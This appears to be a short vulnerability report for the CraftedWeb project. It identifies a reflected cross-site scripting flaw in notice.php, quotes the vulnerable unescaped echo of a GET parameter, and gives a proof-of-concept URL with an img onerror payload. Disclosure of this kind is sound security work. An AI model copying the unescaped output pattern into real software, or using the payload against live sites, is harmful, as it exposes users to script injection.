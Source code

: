 ### There is a XSS on the notice.php page

Powered by Shiyan 

##### Vulnerability analysis：

In the notice.php page, the wrong code was used, resulting in the existence of XSS vulnerability. 

##### Loophole code:

CraftedWeb//aasp_includes/pages/notice.php

Eleventh lines

```
<?php echo $_GET['e']; ?>
```

##### Reflected XSS PoC:

```
http://127.0.0.1/CraftedWeb//aasp_includes/pages/notice.php?e=1<img src=x onerror=alert('shiyan')>
```

##### Vulnerability trigger screenshot：

![1](https://github.com/lzlzh2016/CraftedWeb/blob/master/1.jpg)

Note: the vulnerability will be exploited by malicious users. 
